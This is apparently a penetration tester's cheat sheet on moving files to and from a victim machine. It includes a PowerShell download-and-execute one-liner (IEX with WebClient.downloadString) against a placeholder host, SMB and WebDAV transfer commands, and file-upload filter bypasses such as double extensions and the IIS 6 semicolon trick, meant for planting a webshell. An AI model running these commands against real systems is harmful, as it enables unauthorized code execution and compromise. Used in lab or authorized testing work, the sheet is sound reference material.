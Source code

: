 ### Powershell

```powershell
powershell.exe  (New-Object System.Net.WebClient).DownloadFile("https://example.com/archive.zip", "C:\Windows\Temp\archive.zip") 

powershell.exe "IEX(New-Object Net.WebClient).downloadString('http://<IP>/<script>')"
```

powershell full path:
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
C:\Windows\Sysnative\WindowsPowerShell\v1.0\powershell.exe


### Smbsever

```
impacket-smbserver <share name> <path>

net view \\\\\<ip>
```

### SCP
After login through ssh
scp <fileToUpload> user@remote:/path

## File upload

If try to upload webshell to victim check how the exploit is done.
Check any bad characters

e.g. $XXX is taken as variable in bash, need to use \$ to escape

### WebDav  

upload file:

```
curl -T '/path/to/local/file.txt' 'https://example.com/test/'  
curl --upload-file \<file> http://\<IP>/test/\<filename>  

curl -X MOVE --header 'Destination:http://example.org/new.txt' 'https://example.com/old.txt'  
curl -X COPY --header 'Destination:http://example.org/new.txt' 'https://example.com/old.txt'  

login:  
curl --user 'user:pass' 'https://example.com'  
```

Upload bypass:  
https://www.owasp.org/index.php/Unrestricted_File_Upload  
https://soroush.secproject.com/blog/tag/unrestricted-file-upload/  
 
IIS 6.0 or below

```
Asp > upload as test.txt, copy or move file as test.asp;.txt

Php > upload as pHp / phP / test.php.jpg / 

php - phtml, .php, .php3, .php4, .php5, and .inc

asp - asp, .aspx

perl - .pl, .pm, .cgi, .lib

jsp - .jsp, .jspx, .jsw, .jsv, and .jspf

Coldfusion - .cfm, .cfml, .cfc, .dbm
```